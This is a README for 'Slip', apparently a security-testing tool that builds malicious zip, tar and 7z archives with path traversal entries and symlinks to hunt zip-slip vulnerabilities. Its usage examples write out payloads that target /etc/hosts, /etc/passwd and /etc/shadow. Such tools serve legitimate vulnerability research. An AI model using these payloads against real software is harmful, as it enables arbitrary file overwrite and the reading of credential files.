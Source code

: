 # Slip

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vulnerabilities in a software. With slip it's really convenient to create highly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z** and **zip-like** (jar, war, apk, ipa, ...) archives 
- Allows to hunt for **arbitrary file write** and **arbitrary file read** vulnerabilities 
- Supports the generation of path traversal payloads to search for a file at different depths in the filesystem
- Implements a massfind mode, that uses a payload dictionary to generate the archive
- Allows cloning existing archives to add malicious payloads in more complex existing archives 

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar||jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --clone TEXT                Archive to clone. It creates a copy of an
                                  existing archive and opens to allow adding
                                  payloads.
  -j, --json-file TEXT            JSON file containing a list of file
                                  definitions.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path;name
  --file-content TEXT             Content of the files in the archive, file-
                                  content must be specified if -p/--paths is
                                  used.
  --search INTEGER                Maximum depth in path traversal payloads,
                                  this option generates payload to traverse
                                  multiple depths. It applies to all symlinks
                                  and paths.  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  dict.txt]
  --mass-find-placeholder TEXT    Filename placeholder in mass-find payload
                                  dictionary  [default: {FILE}]
  --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.

```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive.tar
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive.zip
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type 7z --symlinks "../etc/hosts;linkname" archive.7z  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/;foo`, path: `foo/hosts`).

Create an archive from an existing one and add a new payload:
```
python3 slip.py --clone source.7z --paths "foo" --file-content "bar" archive.7z
```

Create an archive from a JSON file and add new payloads:
```
python3 slip.py --json-file definition.json --paths "foo0,bar00" --symlinks "/etc/passwd,/etc/shadow" --file-content "buzz" archive.zip
```

With `definition.json` containing:
```
[
    {
        "file-name": "../foo1",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "../../foo2",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "/etc/passwd;foo3",
        "content":"IGNORED",
        "type":"symlink"
    },
    {
        "file-name": "foo4",
        "content":"Y2lhbwo=",
        "base64": true,
        "type":"path"
    }
]
```
Supported fields are `file-name`, `content`, `base64`, `type`.
If `base64` is specified, content will be decoded form base64.
`type` can only be `path` or `symlink`.

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" --file-content "foo" archive.tar
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```
NOTE: --search does not support named symlink usage to prevent named symlinks from overwriting eachother. 

Create a tar archive with payloads from the default mass-find dictionary to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive.tar
```

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).
